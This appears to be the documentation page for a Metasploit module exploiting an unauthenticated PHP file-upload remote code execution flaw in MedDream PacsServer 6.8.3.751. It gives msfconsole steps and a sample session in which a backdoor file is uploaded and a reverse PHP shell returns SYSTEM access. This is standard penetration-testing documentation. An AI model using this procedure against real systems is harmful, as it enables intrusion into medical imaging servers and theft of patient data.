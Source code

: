 ## Vulnerable Application
This module exploits a vulnerability found in MedDream PacsServer, which
allows unauthenticated attackers to perform Remote Code Execution via an
aribitrary PHP file upload.  Depending on how the web server is configured to
run will determine what level of access priviliged is obtained.

The following version is known to vulnerable:

* 6.8.3.751

## Verification Steps
List the steps needed to make sure this thing works

1. Start `msfconsole`
2. Do: `use exploit/windows/http/meddream_pacs_rce`
3. Do: `set rhosts <ip address of meddream pacs server>`
4. Do: `check`
5. Verify that application is vulnerable via version check
6. Do: `set lhost <ip address of metasploit system>`
7. Do: `exploit`
8. Verify that shell is returned via system commands: `whoami` or `ipconfig`

## Options
Path for web application is customizable upon installation.  Installation
guide defaults to `/Pacs`

Default Payload `php/reverse_php` is used for reliability

## Scenarios

### MedDream PacsServer 6.8.3.751 on Windows 2016

Expected output:

```
$ ./msfconsole -q
msf6 > use exploit/windows/http/meddream_pacs_rce
[*] Using configured payload php/reverse_php
msf6 exploit(windows/http/meddream_pacs_rce) > set rhosts 192.168.0.223
rhosts => 192.168.0.223
msf6 exploit(windows/http/meddream_pacs_rce) > check

[+] MedDream version 6.8.3 detected
[*] 192.168.0.223:80 - The target appears to be vulnerable.
msf6 exploit(windows/http/meddream_pacs_rce) > set lhost 192.168.20.100
lhost => 192.168.20.100
msf6 exploit(windows/http/meddream_pacs_rce) > exploit

[*] Started reverse TCP handler on 192.168.20.100:4444
[*] Uploading backdoor file: BeKzHyHnC.php
[*] New filename on system: '20201016-132215--BeKzHyHnC.php
[*] Trigging the exploit...
[*] Command shell session 1 opened (192.168.20.100:4444 -> 192.168.0.223:50372) at 2020-10-16 13:22:15 -0400
[!] Tried to delete 20201016-132215--BeKzHyHnC.php, unknown result

whoami
nt authority\system
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : foo.bar
   Link-local IPv6 Address . . . . . : fe80::d125:4e8f:1f9d:4399%2
   IPv4 Address. . . . . . . . . . . : 192.168.0.223
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 192.168.254.254
```
